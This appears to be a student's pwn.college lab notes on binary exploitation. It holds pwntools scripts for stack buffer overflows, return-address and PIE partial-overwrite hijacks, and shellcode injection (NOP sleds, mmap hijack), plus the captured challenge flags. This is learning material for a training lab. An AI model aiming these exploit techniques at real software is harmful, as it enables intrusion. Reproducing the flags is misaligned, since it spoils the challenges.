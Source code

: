 ```yaml
---
created: 2025-01-01T04:01
updated: 2025-01-01T18:32
---
```


Fun intro to pwn!
## Variable Control

```python
p.send(b"A"*(8*7+4)+p32(537906058))
# pwn.college{IbWcCEgwb_3NmxBQOakpaZ8L8mV.dhTNzMDL4MTNzYzW}
```

## Control Hijack

```python
p.send(b"A"*8*7+p64(0x4014c8)) # easy
# pwn.college{sjqEokLrLnlDZW3u8G_W0W7kAGz.01M5IDL4MTNzYzW}
p.send(b"A"*8*(14+1+1+1)+p64(0x401C6F)) # 14 i64 ; 1 int ; 1 sizet ; 1 base pointer
# pwn.college{gTV54k_-ulMQYgDzC3Vh_mCftbz.0FN5IDL4MTNzYzW}
```

## Tricky Control Hijack

```python
p.send(b"A"*(121+31)+p64(0x00401d74)) # easy
# pwn.college{oR39AEc9qZaLen24njN6hKpfsaA.0VO5IDL4MTNzYzW}
p.send(b"A"*8*(8+1+1+1+1+1)+p64(0x004015FB)) # 8 i64 ; 1 i16 ; 1 int ; 1 sizet ; 1 base pointer
# pwn.college{gkl-HAozRVjCOL58ddWZgrjluSZ.0FMwMDL4MTNzYzW}
```

## PIEs

```python
p.send(b"A"*8*(9+1+1+1+1)+p16(0x037E))
# pwn.college{QD_tEkBqsGxZhFGVZqF4wVArs1c.0VMwMDL4MTNzYzW}
p.send(b"A"*8*(11+1+1+1+1)+p16(0x6D1)) # 11 i64 ; 1 char ; 1 int ; 1 sizet ; 1 base pointer
# pwn.college{kgYa6adJ7d99q5RJ3UtvPka9GeD.0lMwMDL4MTNzYzW}
```

## String Lengths

```python
p.send(b"\x00"*8*(9+1+1+1+1+1+1)+p16(0x1DD7))
# pwn.college{wOakrYJ9rSpwCNDTCo_v8r8lrpY.01MwMDL4MTNzYzW}
p.send(b"\x00"*8*(4+1+1+1+1+1+1+1)+p16(0x1E83)) # 4 i64 ; 1 int ; 1 i16 ; 1 char ; 1 sizet ; 1 int ; 1 void* ; 1 sizet ; 1 base pointer
# pwn.college{cH39TBWBTDBxBC820wjWZC8HT6I.0FNwMDL4MTNzYzW}
```

## Shellcode Basic

```python
from pwn import *
context.clear(arch='amd64')
p = process("/challenge/binary-exploitation-basic-shellcode")
sc = shellcraft.amd64.linux.cat('/flag')
# sc = shellcraft.execve(path="/bin/cat", argv=["/flag"])
# sc = shellcraft.sh()
sc = asm(sc)
p.send(sc)
p.interactive()
```

For some reason neither `sh` nor `/bin/cat` worked.

## Shellcode NOP Sleds

```python
from pwn import *
context.clear(arch='amd64')
p = process("/challenge/binary-exploitation-nopsled-shellcode")
sc = pwnlib.shellcraft.amd64.nop()*0x800+shellcraft.amd64.linux.cat('/flag')
sc = asm(sc)
p.send(sc)
p.interactive()
```

## Shellcode Null free

The payload from basic shellcode works.

```python
from pwn import *
context.clear(arch='amd64')
p = process("/challenge/binary-exploitation-null-free-shellcode")
sc = shellcraft.amd64.linux.cat('/flag')
sc = asm(sc)
p.send(sc)
p.interactive()
```

## Shellcode Hijack to Mapped

```python
from pwn import *
context.clear(arch='amd64')
p = process("/challenge/binary-exploitation-hijack-to-mmap-shellcode-w")
sc = shellcraft.amd64.linux.cat('/flag')
sc = asm(sc)
p.send(sc)
p.sendline()
p.send(b'A'*8*7+p64(0x15870000))
print(p.recvall().decode())
```

For the hard version, I've figured out how to make use of IDA's `rbp` stuff. `rbp` is just the base pointer location, which saves a lot more time.

```python
# __int64 buf[2]; // [rsp+20h] [rbp-20h] BYREF
p.send(b'A'*(0x20+8)+p64(0x1a317000))
```

## Shellcode Hijack to Shellcode
I tried injecting the shell code before the return address, i.e. make the return address jump back, but it didn't work.

```python
payload = sc.ljust(8*7,asm(pwnlib.shellcraft.amd64.nop())) + p64(0x00007fffffffce00)
```

Instead the shell code is injected after the return address.

```python
from pwn import *
context.clear(arch='amd64')
p = process("/challenge/binary-exploitation-hijack-to-shellcode-w")
sc = shellcraft.amd64.linux.cat('/flag')+pwnlib.shellcraft.amd64.nop()*3
sc = asm(sc)
payload = b'A'*8*7 + p64(0x00007fffffffce38+8) + sc
p.send(payload)
print(p.recvall().decode())
```

For the hard version.

```python
# __int64 buf[2]; // [rsp+20h] [rbp-20h] BYREF
payload = b'A'*(0x20+8) + p64(0x00007fffffffce38+8) + sc
```

## Conclusion

Wow, this was really helpful.

First time ever using shellcode, never knew it was this fun and easy.

Also learnt how to use IDA better.
